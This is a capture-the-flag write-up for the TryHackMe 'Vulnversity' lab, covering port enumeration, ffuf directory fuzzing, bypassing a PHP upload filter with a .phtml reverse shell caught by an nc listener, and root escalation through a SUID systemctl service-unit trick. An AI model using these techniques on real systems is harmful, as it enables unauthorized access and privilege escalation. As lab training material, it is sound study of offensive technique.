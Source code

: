 # Vulnversity (THM)

- https://tryhackme.com/room/vulnversity
- Feb 23, 2023
- easy

---

## Enumeration

### Nmap 

- Ports opened

1. 21 - vsftpd 3.0.3
2. 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
3. 139 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445 - Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
5. 3128 - Squid http proxy 3.5.12
   - http-server-header: squid/3.5.12
   - http-title: ERROR: The requested URL could not be retrieved
6. 3333 - Apache httpd 2.4.18 ((Ubuntu))
   - http-server-header: Apache/2.4.18 (Ubuntu)
   - http-title: Vuln University
   - Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kerne


### HTTP
- ftp, smb cannot enter
- directory brute-forcing at 3333 web server

```sh
ffuf -u http://$IP:3333/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt
```

- found `internal` directory to file upload
- try to upload php reverse shell
- refuse php extension, change to phtml and uploaded

## Get User Access

```sh
nc -vnlp 4444 # listening
curl http://$IP:3333/internal/uploads/php_reverse_shell.phtml # to execute the command and get the shell with user www-data
```

## Get Root Access

- can't execute sudo with this user
- find suid

```sh
$ find / -perm -u=s -type f 2>/dev/null
...
/bin/systemctl
...
```

- /bin/systemctl is interesting
- gtfobin

```sh
TF=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cd /tmp
cat root.txt
```

---

